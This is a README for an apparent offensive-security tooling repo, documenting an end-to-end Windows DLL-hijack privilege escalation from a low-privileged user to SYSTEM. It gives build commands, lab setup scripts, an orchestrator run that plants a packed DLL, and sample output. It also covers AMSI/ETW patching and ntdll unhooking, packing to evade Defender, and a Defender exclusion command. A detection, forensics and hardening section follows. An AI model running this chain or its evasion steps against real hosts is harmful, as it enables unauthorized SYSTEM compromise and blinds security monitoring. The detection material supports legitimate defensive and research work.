

# examples/privesc-dll-hijack — DLL-hijack PrivEsc, end-to-end demo

> **What this proves.** A low-privileged Windows user can drop a
> single DLL into a directory they own, then trigger a
> SYSTEM-context scheduled task that `LoadLibrary`s that DLL —
> resulting in attacker code running as **NT AUTHORITY\SYSTEM**.
> The orchestrator + probe + victim are all real binaries the
> chain actually executes; nothing is mocked.

A successful run prints:

```
[✅ STRONG SUCCESS — marker shows SYSTEM identity (mode 8)]
```

…and a file `ignore/privesc-e2e/whoami.txt` on the host
containing `Système|pid=9036` (or `System|pid=…` on an English
SKU). That file was written by code we packed, that executed
inside a process the user `lowuser` could not legitimately
control.

---

## Table of contents

1. [The attack chain (pedagogy)](#1-the-attack-chain-pedagogy)
2. [Quick start — run the chain by hand](#2-quick-start--run-the-chain-by-hand)
3. [The cast — who's who in the demo](#3-the-cast--whos-who-in-the-demo)
4. [Operator host prerequisites](#4-operator-host-prerequisites)
5. [Target Windows host — one-time setup](#5-target-windows-host--one-time-setup)
6. [Per-run flow — what each step changes](#6-per-run-flow--what-each-step-changes)
7. [Reading the results](#7-reading-the-results)
8. [Detection & forensics — what defenders see](#7-bis-detection--forensics--what-defenders-see)
9. [Customization — orchestrator flags](#8-customization--orchestrator-flags)
10. [Defender bypass via dropper packing](#8-bis-defender-bypass-via-dropper-packing)
11. [Troubleshooting](#9-troubleshooting)
12. [Repository layout](#10-repository-layout)
13. [The helpers this command demonstrates](#11-the-helpers-this-command-demonstrates)

---

## 1. The attack chain (pedagogy)



Read it as: **"who acts" → "what they do" → "what changes on disk"**.

The chain depends on three concrete misconfigurations created
during §2 (and present in many real-world target environments):

1. **`C:\Vulnerable\` is writable by `lowuser`** — typical of any
   third-party software installed under a non-System dir with
   weak ACLs (vendor service paths, Python/Node installs in
   `C:\tools\`, custom application dirs).
2. **A SYSTEM-context scheduled task launches a binary from
   that writable dir** — and that binary `LoadLibrary`s an
   imported DLL by **relative name** (`hijackme.dll`, not
   `C:\Windows\System32\hijackme.dll`).
3. **`lowuser` has been granted Read+Execute on the task** so
   `schtasks /Run` is permitted (or — fallback — the task has a
   natural trigger like a minute-timer that fires regardless).

When all three are true, the lowuser-side orchestrator drops its
packed DLL at `C:\Vulnerable\hijackme.dll`, waits for the task to
fire, and the payload thread inherits the task's SYSTEM token.

This is **MITRE ATT&CK T1574.001** (Hijack Execution Flow: DLL
Search Order Hijacking) with the secondary effect of T1543.003
(Create or Modify System Process: Windows Service / Scheduled
Task abuse).

---

## 2. Quick start — run the chain by hand

You're sitting at the keyboard of a Windows 10/11 x64 box (or
remoted in via RDP — any way you get an interactive shell). The
only artefacts you brought with you:

- `privesc-e2e.exe` (cross-compiled or built natively, see §2.0)
- `victim.exe` (the deliberately-vulnerable host)

Nothing else is assumed. The rest of this section is **all the
Windows commands** you'll type — `cmd.exe` for the day-to-day,
**elevated PowerShell** for the one-time setup that requires
admin. Every step is reversible (see §2.8).

### 2.0 Build the binaries (operator host, before you arrive)

If you're building on Windows directly, skip the cross-compile
flags. On Linux/macOS:

```bash
cd /path/to/maldev   # the repo root — every path below is relative

# probe — full Go (os.WriteFile + exec.Command). The payload that
# runs as SYSTEM is real Go code, not a C nostdlib stub.
GOOS=windows GOARCH=amd64 go build -ldflags='-s -w' \
    -o examples/privesc-dll-hijack/probe/probe.exe \
    ./examples/privesc-dll-hijack/probe

# fakelib — Go cgo c-shared, only needed for Mode-10.
mkdir -p ignore/gotmp
GOTMPDIR="$(pwd)/ignore/gotmp" CGO_ENABLED=1 \
    GOOS=windows GOARCH=amd64 CC=x86_64-w64-mingw32-gcc \
    go build -buildmode=c-shared \
        -o examples/privesc-dll-hijack/fakelib/fakelib.dll \
        ./examples/privesc-dll-hijack/fakelib

# victim — C nostdlib mingw, kernel32-only. Deliberately NOT Go: the
# Mode-8 stub spawns the Go probe payload as a thread inside this
# process; if victim were Go, two Go runtimes would fight over TLS
# slot 0. Keeping victim Go-runtime-free leaves a clean process for
# the spawned-thread Go probe to initialise into.
x86_64-w64-mingw32-gcc -nostdlib -e mainCRTStartup \
    -o victim.exe \
    examples/privesc-dll-hijack/victim/victim.c -lkernel32

# orchestrator.
GOOS=windows GOARCH=amd64 go build -o privesc-e2e.exe ./examples/privesc-dll-hijack
```

Copy `privesc-e2e.exe` + `victim.exe` to the Windows box however
you like (USB key, network share, RDP clipboard, …) into a
working directory — for the rest of this guide we'll assume
they're at `C:\maldev\`.

### 2.1 Open an elevated PowerShell (Windows, admin)

Right-click PowerShell → **Run as administrator**. Confirm
elevation with `whoami /priv | findstr SeImpersonatePrivilege`
— a present `SeImpersonatePrivilege` line means the prompt is
elevated. Stay in this window for §2.2 through §2.4.

### 2.2 Create the `lowuser` attacker account (elevated PowerShell)

```powershell
# Set a stable password — keep it [A-Za-z0-9], any of !"%^ breaks
# the cmd.exe → schtasks /RP quoting chain.
$pw = 'MaldevLow42x'

# 1. Create the local account.
$sec = ConvertTo-SecureString $pw -AsPlainText -Force
New-LocalUser -Name lowuser -Password $sec -PasswordNeverExpires `
              -AccountNeverExpires `
              -FullName 'Maldev low-priv runner' `
              -Description 'Created for privesc-e2e demo'

# 2. Force-set the password via `net user` too — some Win10
#    builds store the Set-LocalUser SecureString form differently
#    from what schtasks /RP expects, causing
#    STATUS_WRONG_PASSWORD at batch-logon time.
net user lowuser /passwordreq:yes
net user lowuser $pw

# 3. Add to the local Users group (locale-safe via SID; the name
#    "Users" is localized — "Utilisateurs" on fr-FR, etc.).
Add-LocalGroupMember -SID 'S-1-5-32-545' -Member lowuser

# 4. Grant SeBatchLogonRight so schtasks can launch tasks under
#    this user. secedit is the locale-safe way.
$inf = "$env:TEMP\sebatch.inf"
$db  = "$env:TEMP\sebatch.sdb"
$sid = (Get-LocalUser -Name lowuser).SID.Value
@"
[Unicode]
Unicode=yes
[Version]
signature="`$CHICAGO`$"
Revision=1
[Privilege Rights]
SeBatchLogonRight = *$sid
"@ | Set-Content -Path $inf -Encoding Unicode
secedit /import /db $db /cfg $inf /areas USER_RIGHTS | Out-Null
secedit /configure /db $db /areas USER_RIGHTS | Out-Null

# 5. Confirm.
Get-LocalUser lowuser | Format-List Name,SID,Enabled
```

### 2.3 Build the vulnerable surface (elevated PowerShell)

```powershell
# 1. C:\Vulnerable — writable by lowuser, host for victim.exe +
#    the planted DLL. Adjust the source path of victim.exe to
#    wherever you copied it.
New-Item -ItemType Directory -Force -Path C:\Vulnerable | Out-Null
icacls C:\Vulnerable /grant 'lowuser:(M)'
Copy-Item C:\maldev\victim.exe C:\Vulnerable\victim.exe -Force

# 2. Marker dir — Everyone-writable so probe (running as SYSTEM)
#    can write here AND lowuser can read the result. Use the SID
#    *S-1-1-0 for Everyone (locale-safe; the localized name is
#    "Tout le monde" on fr-FR, etc.).
New-Item -ItemType Directory -Force -Path C:\ProgramData\maldev-marker | Out-Null
icacls C:\ProgramData\maldev-marker /grant '*S-1-1-0:(M)'

# 3. The SYSTEM-context scheduled task. /RL HIGHEST drops it on
#    the High mandatory IL; /SC MINUTE /MO 1 fires it every minute
#    (real-world equivalents fire on a service-start trigger).
schtasks /Create /TN MaldevHijackVictim `
         /TR 'C:\Vulnerable\victim.exe' `
         /SC MINUTE /MO 1 `
         /RU SYSTEM /RL HIGHEST /F

# 4. Allow lowuser to /Run the task. Easiest way: patch the task
#    XML to add an `<Allow>` ACE for the lowuser SID. Below uses
#    the older schtasks XML round-trip; PowerShell's
#    Set-ScheduledTask only works on tasks lowuser owns.
$sid = (Get-LocalUser -Name lowuser).SID.Value
$xml = schtasks /Query /TN MaldevHijackVictim /XML
[xml]$doc = $xml
$sd = "O:BAG:BAD:(A;;GA;;;BA)(A;;GA;;;SY)(A;;GRRX;;;${sid})"
schtasks /Change /TN MaldevHijackVictim /Z 2>$null   # noop if not supported
# Recreate the task with the new SDDL — `schtasks /Create /SD` is
# the documented path in newer Win10 builds; on older builds the
# easiest workaround is to grant lowuser Read+Execute on the task
# file under C:\Windows\System32\Tasks\.
icacls 'C:\Windows\System32\Tasks\MaldevHijackVictim' /grant "${sid}:(RX)"

# 5. Drop privesc-e2e.exe somewhere lowuser can read it. Public is
#    universally readable.
New-Item -ItemType Directory -Force -Path C:\Users\Public\maldev | Out-Null
Copy-Item C:\maldev\privesc-e2e.exe C:\Users\Public\maldev\privesc-e2e.exe -Force
```

> **Defender note.** If the target has Defender active and you
> deployed the **unpacked** orchestrator from §2.0, Defender may
> match the Go binary on disk and quarantine it before exec.
> `evasion.preset.Aggressive` blinds AMSI + ETW *in-process*, but
> the on-disk signature is still scannable.
>
> Two options, in order of preference:
>
> 1. **Pack the dropper** — break the on-disk signature so
>    Defender's signature scanner has nothing to match. This is
>    the recommended path; see [§8 bis — Defender bypass via
>    dropper packing](#8-bis-defender-bypass-via-dropper-packing)
>    for the exact `cmd/packer` invocation that has been verified
>    end-to-end with Defender real-time protection ON.
>
> 2. **Add a Defender exclusion** — pragmatic for a research
>    session where you're testing some OTHER part of the chain
>    and don't want Defender to be a variable:
>
>    ```powershell
>    Add-MpPreference -ExclusionPath C:\Vulnerable\,C:\Users\Public\maldev\,C:\ProgramData\maldev-marker\
>    ```

### 2.4 Sanity-check the wired-up state (elevated PowerShell)

```powershell
# lowuser exists, has SeBatchLogonRight.
Get-LocalUser lowuser
(Get-Process -Id $PID).Path  # just confirms PS works
secedit /export /cfg $env:TEMP\check.inf /areas USER_RIGHTS | Out-Null
Select-String -Path $env:TEMP\check.inf -Pattern '^SeBatchLogonRight\s*=' |
  ForEach-Object { $_.Line }

# C:\Vulnerable\ writable by lowuser.
icacls C:\Vulnerable | findstr /i lowuser

# Task is registered as SYSTEM and lowuser has /Run.
schtasks /Query /TN MaldevHijackVictim /V /FO LIST | findstr /i "Logon Run-as Author"

# Marker dir is wide-open.
icacls C:\ProgramData\maldev-marker

# The orchestrator binary is in place.
dir C:\Users\Public\maldev\privesc-e2e.exe
```

### 2.5 Switch to a `lowuser` shell (the attack-time step)

Two simple ways — pick one.

**Option A — `runas` (a fresh cmd window pops up):**

```cmd
runas /user:lowuser "cmd /k cd C:\Users\Public\maldev"
```

You'll be prompted for `MaldevLow42x`. A new `cmd.exe` window
spawns running as `lowuser` — every command from now on
executes under that token.

**Option B — Fast User Switching:** log out of admin, log in
as `lowuser` via the Windows lock screen, open `cmd.exe`. Same
result, less convenient.

Either way, **verify the token**:

```cmd
:: in the lowuser shell
whoami
:: → DESKTOP-…\lowuser

whoami /groups | findstr /i "high\|administrators"
:: → empty (no High IL, no admin group)
```

### 2.6 Run the orchestrator (lowuser cmd shell)

```cmd
:: AntiDebug must be OFF if the target is running under a
:: hypervisor (KVM/Hyper-V/VMware): the RDTSC ↔ CPUID delta in
:: the packer's slice-5.6 stub trips on the VMEXIT and the DLL
:: silently no-ops. On bare metal, leave the flag at its default.
C:\Users\Public\maldev\privesc-e2e.exe -mode 8 -antidebug=false
```

You should see (the orchestrator prints to stdout in real time):

```
[hh:mm:ss] == maldev privesc-e2e orchestrator ==
[hh:mm:ss] running as: desktop-…\lowuser
[hh:mm:ss] evasion.preset.Aggressive applied: AMSI + ETW + unhook + CET + ACG + BlockDLLs
[hh:mm:ss] pack mode: 8 (compress=true antidebug=false randomize=true)
[hh:mm:ss] packing probe.exe → DLL via Mode 8 (ConvertEXEtoDLL)
[hh:mm:ss] planted DLL at C:\Vulnerable\hijackme.dll
[hh:mm:ss] schtasks /Run succeeded (or denied — falling back to natural trigger)
[hh:mm:ss] polling C:\ProgramData\maldev-marker\whoami.txt for up to 2m20s
[hh:mm:ss] marker contents: Système|pid=8952
[hh:mm:ss] ✅ SUCCESS: payload ran as SYSTEM (got "système", we are "desktop-…\lowuser")
```

Exit code 0 means STRONG SUCCESS — the payload thread inherited
the SYSTEM token from the scheduled-task fire and wrote its
identity to a file `lowuser` can read back.

### 2.7 Independent verification (any shell on the target)

```cmd
:: STRONG proof — marker file shows the SYSTEM identity.
type C:\ProgramData\maldev-marker\whoami.txt
::   → Système|pid=8952        (fr-FR)
::   → System|pid=…             (en-US)

:: ADEQUATE proof — victim.exe LoadLibrary'd our planted DLL.
type C:\ProgramData\maldev-marker\victim.log
:: Each "LoadLibrary succeeded" line is one minute-trigger fire
:: where the hijack landed. "LoadLibrary failed: Le module
:: spécifié est introuvable" lines are the baseline (before
:: plant) or post-cleanup runs.
```

### 2.8 Cleanup (elevated PowerShell)

```powershell
# Remove the task, the vulnerable dir, the marker dir, the user.
schtasks /Delete /TN MaldevHijackVictim /F
Remove-Item -Recurse -Force C:\Vulnerable
Remove-Item -Recurse -Force C:\ProgramData\maldev-marker
Remove-LocalUser -Name lowuser
Remove-Item -Recurse -Force C:\Users\Public\maldev

# Defender exclusions, if you added them.
Remove-MpPreference -ExclusionPath C:\Vulnerable\,C:\Users\Public\maldev\,C:\ProgramData\maldev-marker\ -ErrorAction SilentlyContinue
```

---

## 3. The cast — who's who in the demo

| Principal | Role | Where it lives |
|---|---|---|
| **Local administrator** (whatever your admin user is called) | does the one-time setup of §2.2–§2.3 | the box's primary user |
| **`lowuser`** | the attacker — non-admin, no SeDebugPrivilege, has `SeBatchLogonRight` so schtasks can launch as them | `C:\Users\lowuser\` (created in §2.2) |
| **`NT AUTHORITY\SYSTEM`** | what we escalate to — runs the scheduled task and therefore the victim | n/a |
| **`privesc-e2e.exe`** | the orchestrator the attacker drops + runs (the maldev tool) | `C:\Users\Public\maldev\privesc-e2e.exe` |
| **`victim.exe`** | deliberately-vulnerable host binary that does `LoadLibrary("hijackme.dll")` | `C:\Vulnerable\victim.exe` |
| **`hijackme.dll`** | the packed payload — converted-DLL form of `probe.exe`, dropped by `lowuser` | `C:\Vulnerable\hijackme.dll` |
| **`probe.exe`** | the payload — tiny C binary that writes `whoami` to a marker file. Packed into `hijackme.dll` by the orchestrator. | embedded into `privesc-e2e.exe` via `//go:embed` |
| **`fakelib.dll`** | Mode-10 only — a real Go-built DLL whose exports we mirror so the proxy looks legitimate | embedded + dropped to `C:\Vulnerable\fakelib.dll` |
| **`MaldevHijackVictim`** | the SYSTEM scheduled task — minute-triggered, RunAs=SYSTEM, action=`victim.exe` | Task Scheduler library |
| **`C:\ProgramData\maldev-marker\`** | observation surface — every actor in the chain writes a file here for post-mortem | created in §2.3 with `*S-1-1-0=Modify` (Everyone) |

---

## 4. Operator host prerequisites

You only need a way to produce a `windows/amd64` build of
`privesc-e2e.exe` + `victim.exe`. Two paths:

**(a) Build natively on a Windows machine** (simplest — even the
target itself, if you're sitting at it):

| Tool | Purpose | Install |
|---|---|---|
| Go ≥ 1.22 | builds the orchestrator + victim | <https://go.dev/dl/> |
| `gcc` (mingw-w64 inside MSYS2) | builds the C victim + the cgo c-shared fakelib (Mode 10 only) | <https://www.msys2.org/> then `pacman -S mingw-w64-x86_64-toolchain` |

**(b) Cross-compile from Linux/macOS** (handy in CI or if you
don't want to install dev tools on the target):

| Tool | Purpose | Install (Fedora example) |
|---|---|---|
| `go` ≥ 1.22 | cross-compile via `GOOS=windows GOARCH=amd64` | `dnf install golang` |
| `x86_64-w64-mingw32-gcc` | builds the `-nostdlib` C victim + the cgo c-shared fakelib | `dnf install mingw64-gcc` |

The native and cross builds are byte-equivalent for the Go
binaries; the C victim is mingw-built either way. See [§2.0](#20-build-the-binaries-operator-host-before-you-arrive)
for the exact commands.

---

## 5. Target Windows host — one-time setup

Out of the box, a fresh Windows 10/11 install is **already**
enough to run §2 — no extra services to enable. The only
question is *how do you reach the box to type the commands*:

- **Sitting at the keyboard** — open PowerShell + cmd locally,
  go straight to §2.1.
- **Over RDP** — same, just remote desktop in first.
- **Headless / over the network** — see §5.1 for OpenSSH
  installation (lets you skip the keyboard entirely).

### 5.1 Optional — install OpenSSH on the target (headless access)

Useful when the target is in a rack or a lab you'd rather
script against than RDP into. Open an **elevated** PowerShell:

```powershell
# 1. Install + start OpenSSH server.
Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0
Set-Service sshd -StartupType Automatic
Start-Service sshd

# 2. Confirm the inbound rule is there (capability installer
#    usually creates it).
Get-NetFirewallRule -Name 'OpenSSH-Server-In-TCP' -ErrorAction SilentlyContinue
# If missing:
New-NetFirewallRule -Name OpenSSH-Server-In-TCP -DisplayName 'OpenSSH (sshd)' `
                    -Enabled True -Direction Inbound -Protocol TCP `
                    -Action Allow -LocalPort 22

# 3. Install YOUR operator-host SSH public key for the admin
#    user. Replace the pubkey below with the one from your
#    operator host (`cat ~/.ssh/id_ed25519.pub` on Linux).
$pubkey = 'ssh-ed25519 AAAA...your-pub-key-here... operator@laptop'
$adminKeyFile = 'C:\ProgramData\ssh\administrators_authorized_keys'
Set-Content -Path $adminKeyFile -Value $pubkey -Encoding ASCII -Force
# sshd refuses keys readable by non-admins.
icacls $adminKeyFile /inheritance:r /grant SYSTEM:F /grant Administrators:F

# 4. Confirm the admin has SeBatchLogonRight — on a fresh local-
#    admin install this is granted by default. If not:
#    secedit / "Local Security Policy" → User Rights Assignment.
whoami /priv | findstr SeBatchLogonRight
```

From your operator host:

```bash
ssh -i ~/.ssh/id_ed25519 <admin>@<target-ip> 'whoami'
# → DESKTOP-…\<admin>
```

---

## 6. Per-run flow — what each step changes

Mapped to the §2 sub-section that performs it, plus the
state-on-disk it produces.

| # | Action | Where it runs | State left behind |
|---|---|---|---|
| 1 | Build `privesc-e2e.exe` + `victim.exe` (+ probe.exe / fakelib.dll embedded) — [§2.0](#20-build-the-binaries-operator-host-before-you-arrive) | operator host | two `.exe` you copy onto the target |
| 2 | Open elevated PowerShell — [§2.1](#21-open-an-elevated-powershell-windows-admin) | target, admin | (none — interactive shell) |
| 3 | Create `lowuser` + grant `SeBatchLogonRight` — [§2.2](#22-create-the-lowuser-attacker-account-elevated-powershell) | target, admin | new local account `lowuser` |
| 4 | Build vulnerable surface — [§2.3](#23-build-the-vulnerable-surface-elevated-powershell) | target, admin | `C:\Vulnerable\` (writable by lowuser), `MaldevHijackVictim` scheduled task (SYSTEM), `C:\ProgramData\maldev-marker\` (Everyone-modify) |
| 5 | Sanity check — [§2.4](#24-sanity-check-the-wired-up-state-elevated-powershell) | target, admin | (read-only) |
| 6 | Switch to `lowuser` shell — [§2.5](#25-switch-to-a-lowuser-shell-the-attack-time-step) | target, lowuser | (token swap) |
| 7 | Run the orchestrator — [§2.6](#26-run-the-orchestrator-lowuser-cmd-shell) | target, lowuser | `C:\Vulnerable\hijackme.dll`, `C:\ProgramData\maldev-marker\whoami.txt` |
| 8 | Verify — [§2.7](#27-independent-verification-any-shell-on-the-target) | target, any user | (read-only — but proves the chain) |
| 9 | Cleanup — [§2.8](#28-cleanup-elevated-powershell) | target, admin | back to step-1 state |

Step 7 is the one that does the actual offensive work. The
orchestrator (`privesc-e2e.exe`), running under the lowuser
token, does the following in-process:

1. Applies `evasion/preset.Aggressive` (AMSI + ETW + ntdll unhook
   + CET opt-out + ACG + BlockDLLs MicrosoftOnly) — defence in
   depth against on-host EDR telemetry.
2. Packs the embedded `probe.exe` into a converted DLL via
   `packer.PackBinary{ConvertEXEtoDLL:true}` (Mode 8) or
   `packer.PackProxyDLLFromTarget(payload, fakelib, …)` (Mode 10).
3. Writes `hijackme.dll` to `C:\Vulnerable\`.
4. Tries `schtasks /Run MaldevHijackVictim` — typically denied
   for `lowuser`; the minute-trigger fires the task within ≤ 60 s
   regardless.
5. Polls `C:\ProgramData\maldev-marker\whoami.txt` for up to
   2 m 20 s.
6. When the file appears, compares its content against
   `currentUser()` and emits SUCCESS / PARTIAL / FAIL on stdout
   + sets the process exit code accordingly.

---

## 7. Reading the results

### 7.1 What lives where after a run

| Path | Content | Tier |
|---|---|---|
| `C:\Vulnerable\hijackme.dll` | the packed payload `lowuser` planted | (artefact) |
| `C:\Vulnerable\fakelib.dll` (Mode 10 only) | the real Go DLL whose named exports we mirror | (artefact) |
| `C:\ProgramData\maldev-marker\whoami.txt` | probe payload's `whoami` output | **STRONG proof** |
| `C:\ProgramData\maldev-marker\victim.log` | one line per `victim.exe` fire | **ADEQUATE proof** |
| `C:\ProgramData\maldev-marker\probe-*.txt` | probe breadcrumbs (`probe-started.txt`, `probe-root-marker.txt`) | bisect aid |
| `C:\ProgramData\maldev-marker\orch-step{1,2,3}-*.txt` | orchestrator breadcrumbs | bisect aid |

### 7.2 Verdict tiers

```
STRONG SUCCESS    marker file shows SYSTEM identity
                   ⇒ payload executed AND wrote a SYSTEM-tagged
                     side-effect we can read back as the
                     low-priv attacker
                   ⇒ chain proven end-to-end.

ADEQUATE PROOF    victim.log shows "LoadLibrary succeeded" with
                  the planted DLL, but the SYSTEM marker write
                  was lost (race / Defender / network)
                   ⇒ chain reached at least the DllMain loader
                     callback inside SYSTEM, payload thread
                     execution unverified.

FAIL              neither artefact present
                   ⇒ chain broke somewhere upstream. See
                     §9 Troubleshooting.
```

### 7.3 A sample successful Mode-8 run

The orchestrator output from §2.6 looks like this end-to-end:

```
[18:35:00] == maldev privesc-e2e orchestrator ==
[18:35:00] running as: desktop-41tgtr3\lowuser
[18:35:00] probe payload: 8918 bytes
[18:35:00] evasion.preset.Aggressive applied: AMSI + ETW + unhook + CET + ACG + BlockDLLs
[18:35:00] pack mode: 8 (compress=true antidebug=false randomize=true)
[18:35:00] packing probe.exe → DLL via Mode 8 (ConvertEXEtoDLL)
[18:35:00] packed DLL: 12800 bytes
[18:35:00] planted DLL at C:\Vulnerable\hijackme.dll
[18:35:00] wiped old marker C:\ProgramData\maldev-marker\whoami.txt
[18:35:00] schtasks /Run denied (expected as lowuser); falling back to natural trigger
[18:35:00] polling C:\ProgramData\maldev-marker\whoami.txt for up to 2m20s
[18:35:01] marker contents: Système|pid=8952
[18:35:01] ✅ SUCCESS: payload ran as SYSTEM (got "système", we are "desktop-…\lowuser")
```

Exit code 0 (with the success line above) means STRONG: the
payload thread inherited the SYSTEM token from the scheduled
task and wrote a SYSTEM-tagged file `lowuser` can read back.

---

## 7-bis. Detection & forensics — what defenders see

Everything below uses **built-in Windows tools only** — no
Sysmon, no third-party EDR. Run from an elevated PowerShell or
cmd. The same commands work whether you're investigating in
real time (during the demo) or post-mortem (after `lowuser`
left and you came to clean up).

### Live indicators (during/right after the attack)

```cmd
:: 1. The vulnerable directory and the planted DLL are world-
::    visible — list it from any shell on the box.
dir C:\Vulnerable\
::   → victim.exe  (admin-deployed)
::   → hijackme.dll (PLANTED — provenance unknown, integrity
::                  not signed by the vendor of victim.exe)
::   → fakelib.dll  (Mode 10 only — looks legit, isn't)

:: 2. The hijack DLL's SHA-256 is unique per-pack (random seed +
::    SGN rounds + AntiDebug stub bytes) — record it for IOC
::    sharing.
certutil -hashfile C:\Vulnerable\hijackme.dll SHA256

:: 3. Authenticode signature — packed DLL is unsigned. Any
::    legit DLL in C:\Vulnerable\ that loads at SYSTEM should
::    have one.
powershell -Command "Get-AuthenticodeSignature C:\Vulnerable\hijackme.dll | Format-List Status,SignerCertificate"

:: 4. Who has hijackme.dll mapped right now? `tasklist /m` walks
::    every process's loaded-module list — victim.exe should
::    appear here while the minute-trigger is firing.
tasklist /m hijackme.dll

:: 5. Process tree of the currently-running victim.exe (if any).
::    Look for the SYSTEM-context parent.
wmic process where "name='victim.exe'" get ProcessId,ParentProcessId,CommandLine,SessionId

:: 6. The unmistakable smoking gun — a file written to
::    C:\ProgramData\ inside a SYSTEM-context process's lifespan.
dir /TC C:\ProgramData\maldev-marker\
type C:\ProgramData\maldev-marker\whoami.txt
:: → Système|pid=8952  ⇐ SYSTEM identity, PID matches the
::                       victim.exe that fired
```

### Scheduled-task audit — the SYSTEM pivot

The whole attack pivots on a SYSTEM-context scheduled task with
a lowuser-reachable trigger ACL. The Task Scheduler service logs
every fire to its operational channel.

```powershell
# List every task running as SYSTEM with non-default ACLs that
# permit non-admin /Run — these are the candidate pivots.
Get-ScheduledTask | Where-Object { $_.Principal.UserId -eq 'SYSTEM' } |
  Select-Object TaskName,TaskPath,@{N='RunLevel';E={$_.Principal.RunLevel}}

# Inspect THIS demo's task explicitly.
schtasks /Query /TN MaldevHijackVictim /V /FO LIST
icacls 'C:\Windows\System32\Tasks\MaldevHijackVictim'

# Task Scheduler operational log — every fire of every task.
# Event 200 = action started, 201 = action completed.
wevtutil qe "Microsoft-Windows-TaskScheduler/Operational" /c:20 /rd:true /f:text /q:"*[System[(EventID=200 or EventID=201)]]"

# PowerShell-native equivalent (richer filtering):
Get-WinEvent -LogName 'Microsoft-Windows-TaskScheduler/Operational' -MaxEvents 50 |
  Where-Object { $_.Message -match 'MaldevHijackVictim' } |
  Select-Object TimeCreated,Id,LevelDisplayName,Message |
  Format-List
```

### Defender / AMSI events

Even with `evasion.preset.Aggressive` blinding AMSI **in-process**,
Defender's on-disk scanner still runs on `LoadLibrary` and on
file writes. AMSI patching itself emits no event by default, but
the patches surfaces:

```powershell
# Defender operational log — exclusions added/removed,
# real-time-protection state, scan history.
Get-WinEvent -LogName 'Microsoft-Windows-Windows Defender/Operational' -MaxEvents 20 |
  Select-Object TimeCreated,Id,Message | Format-List

# Active Defender exclusions — if an attacker added one before
# planting, the Path will show C:\Vulnerable\ or similar.
Get-MpPreference | Select-Object -ExpandProperty ExclusionPath
Get-MpPreference | Select-Object -ExpandProperty ExclusionProcess

# Detection history — what Defender flagged and what it didn't.
Get-MpThreatDetection | Select-Object DetectionID,ThreatID,InitialDetectionTime,Resources |
  Format-Table -Wrap
```

### Process / logon trail (Security log — needs auditing)

These only land if Process Creation auditing (4688) and
Logon auditing (4624/4672) are enabled. Enable them once via:

```powershell
auditpol /set /subcategory:"Process Creation" /success:enable
auditpol /set /subcategory:"Logon"            /success:enable
auditpol /set /subcategory:"User Account Management" /success:enable
```

Then query:

```powershell
# 4720 — local account created (lowuser).
Get-WinEvent -LogName Security -FilterXPath "*[System[EventID=4720]]" -MaxEvents 5 |
  Format-List TimeCreated,Message

# 4624 + LogonType=4 (Batch) — lowuser launched via schtasks.
Get-WinEvent -LogName Security -FilterXPath "*[System[EventID=4624] and EventData[Data[@Name='LogonType']='4']]" -MaxEvents 10 |
  Format-List TimeCreated,Message

# 4688 — process creation, look for victim.exe with
# ParentProcessName=svchost.exe (Task Scheduler service).
Get-WinEvent -LogName Security -FilterXPath "*[System[EventID=4688]]" -MaxEvents 50 |
  Where-Object { $_.Message -match 'victim\.exe' } |
  Format-List TimeCreated,Message
```

### File / mtime forensics

```powershell
# When did each artefact land — and who owns it now?
Get-Item C:\Vulnerable\hijackme.dll,
         C:\Vulnerable\victim.exe,
         C:\ProgramData\maldev-marker\whoami.txt |
  Select-Object FullName, CreationTimeUtc, LastWriteTimeUtc,
                @{N='Owner';E={(Get-Acl $_.FullName).Owner}} |
  Format-Table -Wrap

# Look for the same file written via multiple paths (hardlink
# abuse — Forshaw-class).
fsutil hardlink list C:\Vulnerable\hijackme.dll

# USN journal — every file create/delete on the volume,
# even after the file is gone.
fsutil usn readjournal C: csv | findstr /i "hijackme\|whoami\.txt\|maldev"
```

### Quick triage one-liner

If you only run one command after a suspected hit, this is it:

```powershell
# Returns the three smoking-gun rows in one go.
@(
  @{Q='Marker exists?'; A=(Test-Path C:\ProgramData\maldev-marker\whoami.txt)},
  @{Q='Marker says SYSTEM?'; A=$(if(Test-Path C:\ProgramData\maldev-marker\whoami.txt){
        ([System.IO.File]::ReadAllBytes('C:\ProgramData\maldev-marker\whoami.txt') |
         ForEach-Object { [char]$_ }) -join '' })},
  @{Q='Hijack DLL signed?'; A=(Get-AuthenticodeSignature -ErrorAction SilentlyContinue C:\Vulnerable\hijackme.dll).Status},
  @{Q='Task ACL has non-admin /Run?';
    A=((Get-Acl 'C:\Windows\System32\Tasks\MaldevHijackVictim' -EA SilentlyContinue).Access |
        Where-Object { $_.IdentityReference -notmatch 'SYSTEM|Administr' -and $_.FileSystemRights -match 'ReadAndExecute' } |
        Select-Object -ExpandProperty IdentityReference)}
) | ForEach-Object { [pscustomobject]$_ } | Format-Table -Wrap
```

### Hardening — what a defender should fix in this chain

| Misconfiguration | Mitigation |
|---|---|
| `C:\Vulnerable\` writable by non-admin | reset ACL: `icacls C:\Vulnerable /reset /T` + remove the lowuser ACE |
| Scheduled task `MaldevHijackVictim` lets non-admins `/Run` it | recreate the task without the lowuser grant — `schtasks /Create` defaults to admin-only |
| `victim.exe` calls `LoadLibrary("hijackme.dll")` by **relative** name from a non-System32 dir | fix the binary to pass an absolute path, **or** call `SetDefaultDllDirectories(LOAD_LIBRARY_SEARCH_SYSTEM32)` at startup |
| Defender on-disk scanner not present | enable real-time protection; the packed DLL still has high entropy + suspicious imports |
| `lowuser` granted `SeBatchLogonRight` for no reason | revoke via `secedit` / Local Security Policy |
| Task Scheduler operational log disabled | re-enable: `wevtutil sl Microsoft-Windows-TaskScheduler/Operational /e:true` |

---

## 8. Customization — orchestrator flags

You launch the orchestrator at §2.6. Its CLI surface:

```
-mode int        packer mode: 8 (ConvertEXEtoDLL) or 10 (PackProxyDLL fused) [default 8]
-discover        scan the box via dllhijack.PickBestWritable and plant there
                 instead of the default `-dll` target
-dll string      where to plant the hijack DLL                                [default "C:\Vulnerable\hijackme.dll"]
-task string     scheduled task to trigger                                   [default "MaldevHijackVictim"]
-marker string   where the probe will write whoami output                    [default "C:\ProgramData\maldev-marker\whoami.txt"]
-no-trigger      plant the DLL but do not /Run the task — wait for natural trigger
-compress        LZ4-compress the payload                                    [default true]
-antidebug       AntiDebug PEB + RDTSC check at DllMain entry                [default true; set to false on hypervised hosts — see §9]
